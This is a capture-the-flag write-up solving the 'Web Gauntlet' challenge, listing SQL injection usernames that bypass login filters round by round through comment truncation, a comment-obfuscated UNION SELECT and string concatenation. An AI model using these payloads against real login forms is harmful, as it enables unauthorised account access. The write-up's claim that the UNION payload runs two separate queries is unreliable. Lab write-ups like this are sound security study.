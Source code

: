 
# Web Gauntlet

SQL injections and variants.


# Problem

The challenge is to bypass the filters in order to get a successful login via the SQL queries.
Each time you're successful, the SQL query is printed out.

The password for each round doesn't matter, you can always enter `whatever`.

# Solution

## Round 1:

Username: `admin' /*` or `admin; --`

## Round 2:

Username: `admin' /*`

## Round 3:

Username: `admin';`

## Round 4 (alternative)

I think the challenge was designed so that it should use a `UNION` statement, and refers to the
fact that the username `admin` might be the first user in the table `users`.

Username: `whatever'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;`

This will execute actually two different SQL queries, where all occurances of `/**/` will be converted
to a space character.

- First query is `SELECT * FROM users WHERE username='whatever'`
- Second query is `SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;`

## Round 4 and 5:

This one is much tougher and took me a while. Behind the scenes, `admin` as a username isn't allowed
so the resulting SQL query should concat the values together. You can probably also use `a'||'dmin'`
or similar variants alternatively.

Username: `ad'||'min';`

